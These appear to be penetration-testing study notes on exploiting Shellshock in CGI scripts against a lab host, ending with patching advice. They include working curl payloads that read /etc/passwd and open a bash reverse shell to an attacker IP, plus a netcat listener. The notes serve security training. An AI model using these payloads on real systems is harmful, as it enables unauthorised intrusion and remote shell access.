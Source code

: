 ## Attacking CGI Applications (Shellshock)
### 1. Overview: What is CGI?

Common Gateway Interface (CGI) is a standard protocol that allows web servers to execute scripts and programs to generate dynamic content.

- Primary Use: Middleware to connect web servers with external applications (e.g., DBs, scripts).    
- Common Usage:
    - Forms (e.g., feedback, email, registration)
    - Guest books, mailing lists, blogs        
- Script Location: Typically under `/cgi-bin/`
- Languages: C, C++, Perl, Java, Python, etc.
- Security Context: CGI scripts run in the web server’s user context (e.g., `www-data`)
#### CGI Workflow (High-Level Steps)

1. CGI scripts placed in `/cgi-bin/`
2. User sends request via URL like `https://example.com/cgi-bin/script.pl`
3. Server executes script and returns output to client
### 2. CGI Limitations

- Starts a new process per HTTP request – resource intensive
- No data caching
- New DB connection per request
- Generally inefficient and outdated
- Still found in legacy systems and embedded devices (e.g., IoT)
### 3. CGI Attacks – Shellshock (CVE-2014-6271)

#### Vulnerability Summary

- Found in Bash ≤ v4.3    
- Exploits the way Bash handles environment variables
- Allows remote command execution via malformed function definitions
#### Exploit Format (Bash)

```bash
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```

- `y='() { :;}; ...'` is interpreted as a function    
- Bash executes any command after `;}` if vulnerable
#### Expected Outputs

- Vulnerable: prints `vulnerable-shellshock`    
- Patched: prints only `not vulnerable`
#### Security Impact

- Code is executed with the privileges of the web server
    - Usually `www-data`
    - Occasionally `root` (if server misconfigured)        
### 4. Shellshock via CGI – Hands-On
#### A. Enumeration (Gobuster)

```bash
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

Output:

```
/access.cgi           (Status: 200)
```

Script `access.cgi` is discovered.
#### B. Basic Interaction (curl)

```bash
curl -i http://10.129.204.231/cgi-bin/access.cgi
```

Returns 200 OK but no content — script may be dormant but still vulnerable.
#### C. Confirming Shellshock Vulnerability

```bash
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' http://10.129.204.231/cgi-bin/access.cgi
```

If vulnerable, server returns contents of `/etc/passwd`:

```
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```
#### D. Exploiting for Reverse Shell

1. Start a Netcat listener:

```bash
nc -lvnp 7777
```

2. Trigger the reverse shell:
   
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

Successful shell:

```
connect to [10.10.14.38] from (UNKNOWN) [10.129.204.231] 52840
www-data@htb:/usr/lib/cgi-bin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### 5. Mitigation and Remediation

- Patch Bash to a version > 4.3    
- On legacy systems:
    - Upgrade package manager if needed
    - If patching not feasible, restrict network access (firewall)
- For IoT or embedded:
    - Decommission if possible        
    - Isolate on internal network as a last resort
### 6. Final Thoughts

- Shellshock is old (2014) but still appears in legacy systems and IoT devices
- Always investigate CGI scripts (`/cgi-bin/`) during assessments
- A simple exploit path may yield an internal foothold
